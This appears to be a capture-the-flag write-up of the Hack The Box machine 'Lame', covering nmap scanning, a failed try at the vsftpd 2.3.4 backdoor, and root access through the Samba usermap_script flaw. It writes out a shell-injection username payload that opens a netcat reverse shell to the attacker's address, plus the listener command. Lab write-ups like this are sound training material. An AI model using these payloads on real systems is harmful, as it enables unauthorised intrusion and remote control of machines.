 ```yaml
---
layout: post
title: Lame
image: "/assets/img/<IMG>"
categories: [general, OSCP]
tags: [OSCP, writeup, lame]
twitter_text: "test"
introduction: "test"
description: "Lame write-up"
---
```


![](/assets/imgs/lame/lame.png)

### This is an easy linux box

## Reconnaissance

------

### Nmap

```
nmap -sV -sC -oA lame 10.10.10.3 -Pn -v

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h06m30s, deviation: 2h49m44s, median: 6m28s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-07-15T06:12:45-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

Here's what nmap teaches us :

- port 21 (FTP) vsftpd 2.3.4 : anonymous login
- port 22 (SSH) OpenSSH 4.7p1
- port 139 (NETBIOS)  Samba smbd 3.X - 4.X
- port 445 (SMB) Samba smbd 3.0.20-Debian

We have some version, let's check for known exploits.

### Searchsploit

#### FTP

![](/assets/imgs/lame/searchsploit_vsftpd.PNG)

I download the metasploit exploit like so :

```bash
searchsploit -m unix/remote/17491.rb
```

Looking at the exploit, we see that the backdoor payload is initiated in response to a :) character  combination in the username which represents a smiley face. The code  sets up a bind shell listener on port 6200.

Let's try it manually :

We triggered the backdoor, by using a smiley after the username.

![](/assets/imgs/lame/ftp_exploit_manually.PNG)

Then we connect to the bind shell on port 6200.

![](/assets/imgs/lame/ftp_nc.PNG)

But we got nothing, too bad, the FTP server must be patch !

#### SSH

![](/assets/imgs/lame/searchsploit_openssh.PNG)

As we can see, there is some exploit to do some "Username Enumeration". It might be interresting, but at the moment I don't really need a username. So if don't find anything with SMB, I'll get back to that exploit.

#### SMB

![](/assets/imgs/lame/searchsploit_samba3.0.20.PNG)

I see a "Command Execution", let's look at it.

Download the metasploit exploit :

```bash
searchsploit -m unix/remote/16320.rb
```

The interresting part is here :

```ruby
username = "/=`nohup " + payload.encoded + "`"
```

 By specifying a username containing shell meta characters, attackers can execute arbitrary commands. (https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)

I want a reverse shell so my payload should look something like this :

```
./=`nohup nc -e /bin/bash 10.10.14.3 4444`
```

Let's try it !

Open a nc listener :

```bash
nc -lvp 4444
```

Then triggered the exploit.

![](/assets/imgs/lame/smb_exploit.PNG)

We have a connection back to our listener and we are "root", nice !

![](/assets/imgs/lame/smb_exploit_reverse_shell.PNG)

